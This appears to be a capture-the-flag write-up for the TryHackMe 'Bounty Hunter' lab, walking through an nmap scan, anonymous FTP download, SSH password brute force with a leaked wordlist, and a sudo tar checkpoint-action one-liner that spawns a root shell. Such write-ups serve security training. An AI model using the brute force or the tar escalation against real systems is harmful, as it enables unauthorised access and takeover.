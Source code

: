 # Bounty Hunter | Tryhackme

***
## Difficulty = Easy
***

## **Nmap Scan**  


Running our nmap scan we have :

```powershell
# Nmap 7.94 scan initiated Fri Sep 22 14:18:11 2023 as: nmap -p- -sVC -T4 --min-rate=1000 -v -oN nmap.txt 10.10.163.201
Warning: 10.10.163.201 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.163.201
Host is up (0.15s latency).
Not shown: 55625 filtered tcp ports (no-response), 9907 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
|_-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.14.60.103
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Sep 22 14:25:12 2023 -- 1 IP address (1 host up) scanned in 420.37 seconds
```



## **FTP Enumeration**

- Nmap already told us we have two files here so we can download them with the following command :

```powershell
$ wget -m --no-passive ftp://anonymous:anonymous@10.10.163.201
```


- We can then Navigate to the `10.10.163.201` Folder, to enumerate further.

![](https://i.imgur.com/X0WLZ0u.png)


- We have a task from `lin` and some kind of wordlist from `locks.txt` , we can try bruteforcing these

![](https://i.imgur.com/AFlHMgU.png)



## **Foot Hold**

We where able to bruteforce the password of  `lin` with the given `locks.txt`

![](https://i.imgur.com/e3UDuq0.png)


We can then login and get our shell as `lin` and get the flag in the `user.txt` file.

![](https://i.imgur.com/ctzc6Dk.png)


## **Privilege Escalation**

The first thing i do if i get a user that isn't `www-data` is run `sudo -l` to show what commands i can run with **sudo** privileges

- Over here we can run `sudo -l` and as we can see we have permissions to run `/bin/tar`
- That is we can get root using `/bin/tar`

![](https://i.imgur.com/lUCC8cy.png)


- Nice, So, using the payload as shown below, you should be root 🤗

```powershell
$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```


![](https://i.imgur.com/mNHHbgr.png)

Have fun 🥳

